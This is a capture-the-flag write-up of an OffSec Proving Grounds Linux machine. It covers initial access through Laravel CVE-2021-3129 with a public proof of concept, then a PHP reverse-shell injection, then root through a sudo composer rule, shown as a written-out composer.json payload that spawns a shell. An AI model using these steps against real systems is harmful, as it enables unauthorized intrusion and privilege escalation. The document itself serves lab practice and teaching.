 ```yaml
---
title: CTF-200-07 (OffSec. Proving Grounds)
description: Write-up of CTF-200-07 Machine
date: 2023-12-29 
categories: [proving grounds]
tags: [lavaral, CVE, LAvita, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```xml
Host is up, received syn-ack (0.23s latency).
Scanned at 2023-12-28 00:54:45 IST for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

So we found two ports open `22` & `80`

#### Port 80:

Visiting Port `80` we see a web app running which is also running **Laravel 8.4.0**, Quick Google Search and I found [CVE-2021-3129](https://security.snyk.io/vuln/SNYK-PHP-FACADEIGNITION-1059267)

> [POC](https://raw.githubusercontent.com/joshuavanderpoll/CVE-2021-3129/main/CVE-2021-3129.py)

## www-data:

We can use this POC to execute the commands like:

![poccheck.png](../../assets/writeups/2023-12-27-CTF-200-07/poccheck.png)

Running the POC to get callback for reverse shell,

![gettingrev1.png](../../assets/writeups/2023-12-27-CTF-200-07/gettingrev1.png)

and we get the user shell

![rev2.png](../../assets/writeups/2023-12-27-CTF-200-07/rev2.png)

## Getting User:

User skunk belong to sudo(27) group (Found in linPEAS result). So we need to get shell as user skunk.

Running Pspy to check for the necessary files and ways we can get the skunk shell and i found this php file running which belongs to user `Skunk` 

![pspyresult.png](../../assets/writeups/2023-12-27-CTF-200-07/pspyresult.png)

And we have Write Access to it, 

![writeaccess.png](../../assets/writeups/2023-12-27-CTF-200-07/writeaccess.png)

Injecting a PHP reverse shell will get us the shell as user `Skunk`

![Screenshot_2023-12-28_11-47-12.png](../../assets/writeups/2023-12-27-CTF-200-07/Screenshot_2023-12-28_11-47-12.png)

## Getting Root:

Sticking to the basics i ran `sudo -l` and i found 

```bash
skunk@debian:/$ sudo -l
sudo -l
Matching Defaults entries for skunk on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User skunk may run the following commands on debian:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/composer --working-dir\=/var/www/html/lavita *

```

And [GTFO](https://gtfobins.github.io/gtfobins/composer/#limited-suid) has exploit method for composer, we follow the path 

```bash
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >/var/www/html/lavita/composer.json
```

Since only `www-data` has write access to it, so do this whilst being in the `www-data` shell and then back to `Skunk` shell we run

```bash
sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x
```

and we get root shell

![root.png](../../assets/writeups/2023-12-27-CTF-200-07/root.png)


